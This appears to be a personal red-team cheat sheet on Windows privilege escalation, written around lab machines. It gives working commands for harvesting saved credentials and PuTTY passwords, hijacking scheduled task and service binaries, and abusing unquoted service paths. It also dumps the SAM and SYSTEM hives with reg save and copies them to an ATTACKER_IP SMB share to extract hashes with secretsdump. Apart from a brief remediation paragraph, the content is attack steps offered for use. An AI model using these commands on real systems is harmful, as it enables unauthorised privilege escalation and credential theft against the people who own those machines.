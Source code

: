 # Privilege escalation 

Looking for powershell history ( It will work only in command prompt)

```c
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Looking for saved creds 

```c
cmdkey /list
```

After that you can use "runas" to run a program with that privilege as you can't see the password withh "cmdkey /list"  

```c
runas /savecred /user:admin cmd.exe
```

Looking for **IIS** server config file 

Usually config file's are generally found in any one of these two files 

-   C:\inetpub\wwwroot\web.config
-   C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config


Looking for password stored in SSH-Putty 

```zsh
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```


# Schedule task 


You can use this command to look for current schedule task , In terms of red teaming one can modify the binary or replace with a newly created malicious binary . 

```
schtasks
```

Then one can use thish command to look for more info about that binary (here you have to replace vulntask with the name of binary which u recently discovered )

```c
schtasks /query /tn vulntask /fo list /v
```

U can use `icacls` to check for file premission 

# Abusing svc misconfigurations 

One can look for the services like ```sc qc servicename```

Then you can look for permissions using "icacls" if you have necessary permissions you can overwrite that file with your payload . Then you can give change permissions ```
icacls service.exe /grant Everyone:F```
After this you can use ```sc stop servicename```
```sc start servicename```

# Abusing unquoted service path 

Unquoted path privilege escalation is a type of vulnerability that can occur on Windows systems. When a Windows service is installed with an unquoted path, it can potentially be exploited to escalate privileges on the system.

The issue arises because Windows services can be installed in directories that have spaces in their names, but if the path to the service executable is not surrounded by quotes, Windows may misinterpret the path and try to execute a different file. For example, if a service is installed in "C:\Program Files\MyService\service.exe" but the path is not surrounded by quotes, Windows may try to execute "C:\Program.exe" instead.

An attacker who gains access to a low-privileged user account on the system may be able to exploit this vulnerability to escalate their privileges to those of the service account, which may have higher privileges. By creating a malicious file with a name that matches the misinterpreted path, the attacker can cause Windows to execute their file instead of the intended service executable.

To fix this vulnerability, service paths should always be surrounded by quotes to ensure that Windows interprets the path correctly. Administrators can also use tools like Microsoft's Sysinternals "AccessChk" or "AccessEnum" to identify unquoted service paths on their systems. Once identified, administrators can update the paths to include quotes and restart the affected services.

# Abusing dangerous privileges 

**Sebackup /Serestore**

If we have this perms we can copy the hashes 

```shell-session
reg save hklm\system C:\Users\THMBackup\system.hive
```

```shell-session
reg save hklm\sam C:\Users\THMBackup\sam.hive
```

Now we can send them to our  local machine 

Run this command on your local machine (kali)

```sh
impacket-smbserver -smb2support -username THMBackup -password CopyMaster555 public share
```

Run this on windows 

```shell-session
copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
```

Then you can use impacket to dump the hash 

```shell-session
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```


**SeTakeOwnership**

If we have this permission we can take ownership of anyfile and then we can replace that file with our own exe 


**SeImpersonate / SeAssignPrimaryToken**

If we have this permision we can impersonate as any user on that system 

Some tools which we can use juicypotato.exe and RogueWinRM.exe


